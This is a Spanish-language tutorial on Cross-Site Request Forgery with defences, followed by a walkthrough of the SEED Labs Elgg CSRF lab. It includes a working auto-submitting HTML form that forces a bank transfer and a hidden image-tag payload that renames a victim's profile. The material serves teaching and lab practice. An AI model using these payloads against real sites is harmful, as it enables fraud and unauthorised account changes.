 # Cross-Site Request Forgery (CSRF)

## ¿Qué es CSRF?

El **Cross-Site Request Forgery (CSRF)** es una vulnerabilidad en la que un atacante engaña a un usuario legítimo para que realice una **acción no deseada** en una aplicación web donde ya está autenticado.  
El ataque aprovecha que el navegador del usuario **automáticamente envía las cookies** de sesión a la aplicación web, sin que el usuario se dé cuenta.

## ¿Cómo ocurre?

1. El usuario está autenticado en una web (por ejemplo, su banco en línea).
    
2. Sin cerrar sesión, el usuario visita un sitio web malicioso.
    
3. El sitio malicioso **envía una solicitud HTTP** al sitio legítimo utilizando la sesión activa del usuario.
    
4. Como el navegador incluye automáticamente las cookies, el sitio legítimo procesa la solicitud **como si fuera legítima**.
    

## Ejemplo realista

Un atacante crea una página maliciosa que fuerza a un usuario autenticado a realizar una **transferencia bancaria** sin su consentimiento.

```html
<!-- Página maliciosa -->
<html>
  <body>
    <h1>¡Oferta exclusiva! ¡Haz clic aquí!</h1>
    <form action="https://banco-victima.com/transferir" method="POST">
      <input type="hidden" name="destinatario" value="cuenta-atacante">
      <input type="hidden" name="cantidad" value="1000">
      <input type="submit" value="Gana un premio">
    </form>

    <script>
      document.forms[0].submit(); // Envía automáticamente el formulario
    </script>
  </body>
</html>
```

> Si el usuario está autenticado en `banco-victima.com`, al visitar esta página, se enviará una transferencia de **1000 unidades** a la cuenta del atacante **sin que el usuario se entere**.

## ¿Qué acciones podría forzar un atacante?

- Transferir dinero
    
- Cambiar el correo electrónico o contraseña
    
- Eliminar cuentas o datos importantes
    
- Escalar privilegios o dar permisos a un atacante
    

## ¿Cómo prevenir CSRF?

- **Tokens CSRF**: Incluir un **token aleatorio y único** en cada formulario y solicitud. El servidor valida que este token sea correcto.
    
- **Cabeceras personalizadas**: Usar cabeceras que el navegador no envía automáticamente, para que el atacante no pueda replicarlas.
    
- **SameSite Cookies**: Configurar las cookies de sesión con la propiedad `SameSite=Strict` o `SameSite=Lax` para limitar el envío de cookies a solicitudes del mismo origen.
    
- **Verificación de origen**: Revisar la cabecera `Origin` o `Referer` para confirmar que la solicitud viene del sitio legítimo.
    

---
# Secuencia del ataque

Vamos a desglosar paso a paso como sería un ataque de *CSRF*

## Paso 1 - Despliegue del laboratorio

[Laboratorio CSRF:](https://seedsecuritylabs.org/Labs_20.04/Files/Web_CSRF_Elgg/Labsetup.zip)


Acción: 

```Shell
wget https://seedsecuritylabs.org/Labs_20.04/Files/Web_CSRF_Elgg/Labsetup.zip
unzip Labsetup.zip
rm !$
cd Labsetup
docker-compose up -d
```

Resultado: 

```Shell
attacker  docker-compose.yml  image_attacker  image_mysql  image_www
```

Explicación:  descargamos a nuestra máquina local este laboratorio, descomprimimos y accedemos a la carpeta descargada para iniciar el [Docker](../../Herramientas/Docker/Docker.md) 

## Paso 2 -

Acción: 

```Shell
nvim /etc/hosts
```

Resultado:

```lua
# Host addresses
127.0.0.1  localhost
127.0.1.1  parrot
::1        localhost ip6-localhost ip6-loopback
ff02::1    ip6-allnodes
ff02::2    ip6-allrouters
# Others

# Docker

10.9.0.5  www.seed-server.com
10.9.0.5  www.example32.com
10.9.0.105  www.attacker32.com
```

Explicación:  añadimos al `/etc/hosts` los dominios asociados al contenedor

**Nota:** tenemos por defecto estas dos credenciales:

```txt
alice:seedalice
samy:seedsamy
```

## Paso 3 -

Acción: en BurpSuite, pasamos la solicitud de POST a GET, y teniendo en cuenta el identificador de usuario (en este caso alice es el 56) escribimos este mensaje en un campo que interpreta html y lo que hacemos es que se crea una imagen (que añadimos algunos valores de altura y ancho con width y height), de esta forma alice al entrar al mensaje no vera nada raro pero estará tramitando el cambio de nombre de usuario

```txt
<img src="http://www.seed.server.com/action/profile/edit?name=Hacked&description=&accesslevel%5bdescription%5d=2&briefdescription=&accesslevel%5bbriefdescription%5d=2&location=&accesslevel%5blocation%5d=2&interests=&accesslevel%5binterests%5d=2&skills=&accesslevel%5bskills%5d=2&contactemail=&accesslevel%5bcontactemail%5d=2&phone=&accesslevel%5bphone%5d=2&mobile=&accesslevel%5bmobile%5d=2&website=&accesslevel%5bwebsite%5d=2&twitter=&accesslevel%5btwitter%5d=2&guid=56" alt="image" width="1" height="1"/>
```

Explicación:  con este payload a través de [Burp Suite](../../Herramientas/Burp%20Suite) podemos realizar la acción maliciosa de hacer que el usuario que recibe este mensaje modifique su nombre de usuario.
